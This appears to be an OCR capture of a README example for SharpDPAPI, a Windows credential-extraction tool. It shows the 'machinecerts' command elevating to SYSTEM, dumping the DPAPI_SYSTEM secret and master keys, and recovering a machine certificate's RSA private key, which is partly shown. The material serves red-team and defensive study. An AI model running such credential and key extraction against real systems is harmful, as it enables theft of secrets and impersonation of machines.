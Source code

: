     C:\Temp>SharpDPAPI.exe machinecerts

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.7.0


    [*] Action: Machine DPAPI Certificate Triage

    [*] Elevating to SYSTEM via token duplication for LSA secret retrieval
    [*] RevertToSelf()


    [*] Secret  : DPAPI_SYSTEM
    [*]    full: DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF6C88CEFD23D0291FA9FE46899D4DE12A180E76C3
    [*]    m/u : DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF / 6C88CEFD23D0291FA9FE46899D4DE12A180E76C3

    [*] SYSTEM master key cache:

    {3c1fb9fb-aabe-4c45-aab9-c3e1b614776d}:4E4193B4C4D2F0420E0656B5F83D03754B565A0C
    ...(snip)...


    [*] Triaging System Certificates


    Folder       : C:\ProgramData\Microsoft\Crypto\RSA\MachineKeys


    Certificate file           : fad662b360941f26a1193357aab3c12d_6c712ef3-1467-4f96-bb5c-6737ba66cfb0

        Private Key GUID    : IIS Express Development Certificate Container
        Magic Header: RSA1
        Len1: 264
        Bitlength: 2048
        UNK: 255
        Pubexp: 65537
        GuidProvider GUID is {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
        Master Key GUID is {3c1fb9fb-aabe-4c45-aab9-c3e1b614776d}
        Description: CryptoAPI Private Key
        algCrypt: CALG_AES_256
        keyLen: 256
        Salt: daa3d225ba280029a6169495bbdb3182c75f659ffcd1352ee845e830621fbc08
        algHash: CALG_SHA_512
        Hashlen: 512
        HMAC: 93519cb9b6bbdf409909b3ee78dc1d783ab5db273bf796d9f9f77ea8ba2f64b3

    [*] Private key file fad662b360941f26a1193357aab3c12d_6c712ef3-1467-4f96-bb5c-6737ba66cfb0 was recovered

    [*] PKCS1 Private key

    -----BEGIN RSA PRIVATE KEY-----
    MIIEogIBAAKCAQEApSg1h2MH3lK39ZoFrj1tz5...(snip)...
    -----END RSA PRIVATE KEY-----

    [*] Certificate
